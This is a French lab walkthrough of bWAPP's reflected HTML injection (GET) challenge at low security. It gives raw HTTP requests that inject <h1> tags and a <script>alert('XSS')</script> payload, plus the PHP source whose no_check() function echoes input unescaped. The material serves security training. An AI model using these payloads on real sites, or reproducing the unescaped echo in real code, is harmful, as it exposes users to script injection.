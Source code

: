 # Niveau "Low"

## Exploitation

L'exploitation est ici triviale. Le prénom et le nom sont renseignés dans un formulaire transféré par la méthode HTTP `GET` :&#x20;

![](<../../../../../.gitbook/assets/image (21) (1) (1).png>)

Dont voici la requête :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=pr%C3%A9nom&lastname=nom&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=41a2ae9ea948edd613914b6d27214575; security_level=0
Connection: close
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (GET)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_get.php" method="GET">
    <p>
      <label for="firstname">First name:</label><br />
      <input type="text" id="firstname" name="firstname">
    </p>
    <p>
      <label for="lastname">Last name:</label><br />
      <input type="text" id="lastname" name="lastname">
    </p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prénom nom
</div>
```

Une première tentative d'injection peut se faire en se limitant à du code HTML, bien qu'il soit également possible d'injecter du Javascript :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=%3Ch1%3ETitre+H1+contenant+le+pr%C3%A9nom%3C%2Fh1%3E&lastname=%3Ch1%3ETitre+H1+contenant+le+nom%3C%2Fh1%3E&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=41a2ae9ea948edd613914b6d27214575; security_level=0
Connection: close
```

![](<../../../../../.gitbook/assets/image (13) (1) (1).png>)

Mais l'injection Javascript est également tout à fait possible, ici avec `<script>alert('XSS')</script>` :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&lastname=nom&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=0; PHPSESSID=0b0bfacccccd5a0692b45538f09f0b97
Connection: close
```

![](<../../../../../.gitbook/assets/image (7) (1) (1) (1).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_get.php" %}
```php
if(isset($_GET["firstname"]) && isset($_GET["lastname"])) {
  $firstname = $_GET["firstname"];
  $lastname = $_GET["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " . htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_get.php" %}
```php
function htmli($data) {

  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;
  }

  return $data;
}
```
{% endcode %}

Le level "Low" correspond à la valeur 0, c'est à dire ici à l'exécution de la méthode `no_check()` qui retourne simplement la donnée :&#x20;

{% code title="functions_external.php" %}
```php
function no_check($data) {
  return $data
}
```
{% endcode %}
